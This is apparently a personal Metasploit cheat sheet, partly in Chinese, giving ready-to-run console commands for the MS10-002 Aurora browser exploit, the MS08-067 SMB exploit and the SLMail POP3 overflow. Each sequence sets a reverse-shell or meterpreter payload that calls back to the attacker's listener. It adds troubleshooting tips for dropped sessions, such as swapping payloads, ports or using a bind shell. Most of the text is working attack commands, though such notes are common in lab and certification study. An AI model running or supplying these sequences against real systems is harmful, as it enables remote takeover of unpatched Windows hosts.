 ### ms10_002

search ms10_002
use exploit/windows/browser/ms10_002_aurora
show options
set srvhost 192.168.1.1
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.1
set lport 11111
exploit

### ms08_067

search ms08_067
use exploit/windows/smb/ms08_067_netapi
show options
set rhost 192.168.1.2
show targets
set target 34
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.1
set lport 11111
exploit

### slmail

search pop3
use exploit/windows/pop3/seattlelab_pass
set payload windows/shell_reverse_tcp
show options
set rhost 192.168.30.35
set lhost 192.168.30.5
set lport 443
exploit

### 注意事项

如果meterpreter session 创建成功了,但很快就断连,此时应该修改使用的payload,优先改成 generic/shell_reverse_tcp 等
如果还不成功,切换回连端口或者改成bind shell 试试


## 编写自己的ruby脚本

看视频,以后再说


## meterpreter

文章:   https://www.cnblogs.com/backlion/p/9484949.html     https://xz.aliyun.com/t/2536        https://www.jianshu.com/p/f3f72f313326

截屏:
screenshot
